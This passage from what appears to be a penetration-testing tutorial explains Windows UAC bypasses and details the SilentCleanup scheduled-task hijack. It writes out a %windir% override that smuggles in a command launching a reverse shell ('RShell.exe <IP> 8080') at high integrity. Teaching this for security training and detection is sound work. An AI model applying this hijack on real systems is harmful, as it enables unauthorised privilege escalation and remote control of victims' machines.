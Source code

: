 ![image](KWeScQK2iCzA.png)

This is a situation where we would have to bypass `User Access Control`.

## How Can We Bypass It?

So how do we go about bypassing `User Access Control`? It turns out that there are a lot of ways to do this, so we will focus on `two of the most common ones` according to this [research article by Elastic](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies):

- UAC Bypass via `DiskCleanup Scheduled Task Hijack`
- UAC Bypass via `FodHelper Execution Hijack`

![image](TNNuLtkOnI19.png)

Note: Everything in this section will be done with `Real-time protection` enabled.

#### Bypass 1: DiskCleanup Scheduled Task Hijack

The first bypass we will cover is one which was [discovered in 2017](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html) by [James Forshaw](https://twitter.com/tiraniddo) from [Google Project Zero](https://googleprojectzero.blogspot.com/). `SilentCleanup` is a scheduled task which is configured on `Windows` by default. The interesting thing about this scheduled task, is that it may be started from a process with a `medium integrity level`, and then automatically elevates to a `high integrity level` since the `"Run with highest privileges"` option is enabled.

![image](CyjsLTlHFoqP.png)

Therefore, if we can control what `SilentCleanup` does, we can elevate to a `high integrity level` without triggering a prompt from `User Account Control`. Taking a look at what `SilentCleanup` does, we see that it starts the program `"%windir%\system32\cleanmgr.exe"` with some arguments.

![image](5FRPCoBpTafA.png)

Since the path of the program to be launched includes the environment variable `%windir%`, we can modify this to control the program `SilentCleanup` launches in order to bypass `User Account Control`. Let's imagine we have placed `RShell.exe` in `C:\Windows\Tasks\`. By setting `%windir%` to the following (mind the space at the end):

```
cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM

```

The path of the program to be launched would become:

```
cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM \system32\cleanmgr.exe /autocleanstoragesense /d %systemdriv...

```

[REM](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/rem) is a `Windows` command which indicates a comment, which means `SilentCleanup` would just end up launching `RShell.exe` with a `high integrity level`.
